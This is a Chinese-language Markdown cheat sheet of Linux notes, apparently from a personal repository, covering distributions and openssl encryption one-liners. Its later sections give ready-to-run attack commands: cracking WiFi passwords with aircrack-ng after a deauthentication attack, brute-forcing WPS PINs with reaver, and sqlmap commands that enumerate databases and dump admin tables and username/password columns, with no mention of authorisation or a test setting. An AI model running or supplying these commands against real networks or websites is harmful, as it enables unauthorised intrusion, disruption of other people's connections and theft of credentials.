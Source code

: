 # [Home](../README.md)
## [Linux](https://www.apiref.com/linux-zh/linux-command-manual.html)

![linux](https://www.runoob.com/wp-content/uploads/2014/06/d0c50-linux2bfile2bsystem2bhierarchy.jpg)

### Linux发行版
- [Ubuntu](http://www.ubuntu.com/)
- [Fedora](http://fedoraproject.org/)
- [Debian](http://www.debian.org/)
- [CentOS](http://www.centos.org/)
- [Arch](https://www.archlinux.org/)
- [Kali](https://www.kali.org/)
- [ElementaryOS](https://elementary.io/zh_CN/)
- [Nitrux](https://nxos.org/)

### openssl
> 加密

```shell
echo '明文' | openssl aes-128-cbc -k "key" -base64
```

>解密

```shell
echo "U2FsdGVkX19nGdcPGq41k5Nq92WRzXIkH1YVcBAjJpQ=" | openssl aes-128-cbc -d -k "key" -base64
echo "U2FsdGVkX19nGdcPGq41k5Nq92WRzXIkH1YVcBAjJpQ=" | tr ' ' '\n' | openssl aes-128-cbc -d -k "key" -base64
```

```shell
#Standard commands
asn1parse         ca                ciphers           cms
crl               crl2pkcs7         dgst              dhparam
dsa               dsaparam          ec                ecparam
enc               engine            errstr            gendsa
genpkey           genrsa            help              list
nseq              ocsp              passwd            pkcs12
pkcs7             pkcs8             pkey              pkeyparam
pkeyutl           prime             rand              rehash
req               rsa               rsautl            s_client
s_server          s_time            sess_id           smime
speed             spkac             srp               storeutl
ts                verify            version           x509

#Message Digest commands (see the `dgst' command for more details)
blake2b512        blake2s256        gost              md4
md5               mdc2              rmd160            sha1
sha224            sha256            sha3-224          sha3-256
sha3-384          sha3-512          sha384            sha512
sha512-224        sha512-256        shake128          shake256
sm3

#Cipher commands (see the `enc' command for more details)
aes-128-cbc       aes-128-ecb       aes-192-cbc       aes-192-ecb
aes-256-cbc       aes-256-ecb       aria-128-cbc      aria-128-cfb
aria-128-cfb1     aria-128-cfb8     aria-128-ctr      aria-128-ecb
aria-128-ofb      aria-192-cbc      aria-192-cfb      aria-192-cfb1
aria-192-cfb8     aria-192-ctr      aria-192-ecb      aria-192-ofb
aria-256-cbc      aria-256-cfb      aria-256-cfb1     aria-256-cfb8
aria-256-ctr      aria-256-ecb      aria-256-ofb      base64
bf                bf-cbc            bf-cfb            bf-ecb
bf-ofb            camellia-128-cbc  camellia-128-ecb  camellia-192-cbc
camellia-192-ecb  camellia-256-cbc  camellia-256-ecb  cast
cast-cbc          cast5-cbc         cast5-cfb         cast5-ecb
cast5-ofb         des               des-cbc           des-cfb
des-ecb           des-ede           des-ede-cbc       des-ede-cfb
des-ede-ofb       des-ede3          des-ede3-cbc      des-ede3-cfb
des-ede3-ofb      des-ofb           des3              desx
rc2               rc2-40-cbc        rc2-64-cbc        rc2-cbc
rc2-cfb           rc2-ecb           rc2-ofb           rc4
rc4-40            seed              seed-cbc          seed-cfb
seed-ecb          seed-ofb          sm4-cbc           sm4-cfb
sm4-ctr           sm4-ecb           sm4-ofb           zlib
```
### wifi密码跑字典
```shell
airmon-ng check kill			#杀死进程
airmon-ng start wlan0			#是wlan0网卡开起monitor mode
airodump-ng wlan0mon			#查看附件wifi
airodump-ng --bssid mac地址 -c CH值 -w crack wlan0mon		#开始抓包

aireplay-ng --deauth 10 -a mac地址 -c 抓到的mac地址 wlan0mon
aircrack-ng -w 密码字典路径 crack-01.cap

airmon-ng stop wlan0mon		#关闭wlan0网卡monitor mode
```
### wifi跑pin码
```shell
airmon-ng start wlan0
wash -i wlan0mon
reaver -i wlan0mon -b mac地址 -S -N -vv -c CH值
```

### sqlmap工具
```shell
sqlmap -u url --dbs --current-user	
sqlmap -u url --dbms mysql -D dbName --tables
sqlmap -u url --dbms mysql -T admin --columns
sqlmap -u url --dbms mysql -T admin -C field1, field2 --dump

sqlmap -u url?id=1
sqlmap -u url?id=1 --dbs
sqlmap -u url?id=1 --current-db		#列出当前使用的数据库名
sqlmap -u url?id=1 --tables -D "db_name"
sqlmap -u url?id=1 --columns -T "tb_name" -D "db_name"
sqlmap -u url?id=1 --dump -C "username, password" -T "tb_name" -D "db_name"

sqlmap -u url?id=1 --is-dbs #判断该注入点是否有管理员权限，true表示管理员
```

